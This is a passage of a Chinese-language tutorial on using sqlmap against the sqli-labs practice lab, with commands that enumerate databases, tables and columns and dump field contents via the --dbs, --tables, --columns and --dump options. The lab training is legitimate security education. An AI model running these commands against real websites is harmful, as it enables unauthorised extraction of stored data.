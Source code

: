 ``` 1.txt

Upgrade-Insecure-Requests: 1
```

## 3.查询当前用户下的所有数据库

确定网站存在注入后，用于查询当前用户下的所有数据库，如果当前用户有权限读取包含所有数据库列表信息的表，使用该命令就可以列出所有数据库，如图

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") --dbs

!

查询出所有数据库的库名。当继续注入时 --dbs缩写成-Dxxx,其意思是在XXX数据库中继续查询其他数据

## 4 .获取教据库中的表名

该命令的作用是查询完数据库后，查询指定数据库中所有的表名，如下所示.

如果在该命令中不加入-D参教来指定某一具体的数据库，那么SQLmap会列出教据库中所有库的表，如图

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") -D 2web --tables

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2Ff66a123f836aa2e195d412342b436692.png)

可以看到2web数据库中拥有的1个表名。当继续注入时，--tables缩写成-T,意思是在某表中继续查询。

## 5、 获取表中的字段名

该命令的作用是查询完表名后，查询该表中所有的字段名，如下所示。运行该命令的结果

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") -D 2web -T article --columns

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F1b70adc6a444ae59e44b34503861d98e.png)

可以看到在2web数据库中的article表中一共有4个字段。在后续的注入中，--columns缩写成-C。

## 6、获取字段内容

该命令是查询完字段名之后，获取该字段中具体的数据信息，如下所示。

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") -D 2web -T article -C author,id --dump

这里需要下载的数据是2web数据库里article表中author和id两个字段的值

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F91ee835f9e833f4fc90c4b19ecd0e652.png)

## 7、获取数据库的所有用户

该命令的作用是列出教据库的所有用户，如下所示。在当前用户有权限读取包含所有用户的表的权限时，使用该命令就可以列出所有管理用户。
